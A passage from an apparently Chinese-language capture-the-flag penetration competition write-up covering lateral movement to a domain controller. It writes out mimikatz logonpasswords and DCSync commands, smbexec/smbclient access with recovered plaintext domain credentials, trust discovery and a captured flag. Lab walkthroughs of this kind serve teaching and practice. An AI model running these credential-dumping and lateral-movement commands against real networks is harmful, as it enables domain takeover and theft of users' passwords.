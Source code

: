 ![image-20220528130206000000-1656056194022287.png](img/中小型企业环境网络安全渗透赛 local/cb50f25ac28e2b96ecb52f19f7efef01.png)

通过mimikatz进行抓主机密码

```
C:\mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords"" exit
```

![image-20220528130216000000-1656056195657984.png](img/中小型企业环境网络安全渗透赛 local/0ef65876c9e2ff27bc0e313805755f7a.png)

![image-20220528130226000000-1656056197285650.png](img/中小型企业环境网络安全渗透赛 local/4b600f33c1b1d418591d12c138dcebf3.png)

获取到域管理员权限

```
         * Username : kevin
         * Domain   : BJ
         * Password : kevin1997..
         
         
		* Username : sysadmin
         * Domain   : BJ
         * Password : KJidkoljlnb#4.
```

##### 任务16：横向移动到域控主机抓取域内所有hash（T1078-利用有效账户凭据、T1555-抓取存储的密码、T1482-域信任发现）

```
python3 smbexec.py bj.jyj.com/sysadmin:KJidkoljlnb#4.@192.168.100.50

#查找信任域
nltest /domain_trusts
```

![image-20220528121222000000-1656056198913940.png](img/中小型企业环境网络安全渗透赛 local/fcee47196c11107cbba12a21ec022f89.png)

DC2主机的flag文件位置：`c:\Users\Administrator\Desktop\flag.txt`

```
flag{B6AB-7C20-AC52-F913-E56E-327A-FD82-1F8A}
```

上传mimikatz到域控主机

```
python3 smbclient.py bj.jyj.com/sysadmin:KJidkoljlnb#4.@192.168.100.50
use c$
put C:\Users\Administrator\Desktop\工具\内网渗透\读取密码\mimikatz\x64\mimikatz.exe
```

![image-20220528130240000000-1656056200493986.png](img/中小型企业环境网络安全渗透赛 local/ff2781f6ce70ba2cdb87192beefb6836.png)

使用之前的smbexec.py，获取域内所有hash，以实际为准。

```
c:\mimikatz.exe "lsadump::dcsync /domain:bj.jyj.com /all /csv" "exit"
```
